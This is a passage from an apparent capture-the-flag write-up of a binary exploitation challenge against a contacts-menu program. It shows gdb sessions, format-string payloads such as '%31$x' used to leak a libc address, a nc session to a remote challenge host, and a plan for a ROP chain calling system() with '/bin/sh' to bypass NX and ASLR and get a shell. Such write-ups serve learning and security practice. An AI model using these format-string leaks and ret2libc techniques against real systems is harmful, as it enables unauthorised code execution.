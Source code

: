 ```bash
>>> 4
Contacts:
  Name: infoleak
  Length 900
  Phone #: 1337
  Description: 804c018.b7e414d3
Menu:
1)Create contact
2)Remove contact
3)Edit contact
4)Display contacts
5)Exit
>>> 
(gdb) x/s 0x804c018
0x804c018:   "%11$x.%31$x\n"
(gdb) disas 0xb7e414d3,+10
Dump of assembler code from 0xb7e414d3 to 0xb7e414dd:
   0xb7e414d3 <__libc_start_main+243>:  mov    %eax,(%esp)
   0xb7e414d6 <__libc_start_main+246>:  call   0xb7e5afb0 <exit>
   0xb7e414db <__libc_start_main+251>:  xor    %ecx,%ecx
```

This infoleak is important because since we are dealing with both NX and ASLR protections we will need to construct a ROP chain and bypass ASLR.
The ingredients for our ROP chain are as follows:

* address of *system()* in libc
* address of a "/bin/sh" string
* a bogus return address (0xBADC0DE) for the ROP-call of *system()*

If we can hijack EIP control so that it ends up pointing to system() while the stack pointer points to our ROP chain (composed of a bogus return address and the address of "/bin/sh") then we can pop a shell on the target machine.

But let's first try to find out what remote libc version is used. We will have to make some assumptions but it helps that we can leak our __libc_start_main return address point, let's leak it remotely:

```bash
$ nc 54.165.223.128 2555
Menu:
1)Create contact
2)Remove contact
3)Edit contact
4)Display contacts
5)Exit
>>> 1
Contact info: 
  Name: infoleak
[DEBUG] Haven't written a parser for phone numbers; You have 10 numbers
  Enter Phone No: 1337
  Length of description: 100
  Enter description:
    %31$x
Menu:
1)Create contact
2)Remove contact
3)Edit contact
4)Display contacts
5)Exit
>>> 4
Contacts:
  Name: infoleak
  Length 100
  Phone #: 1337
```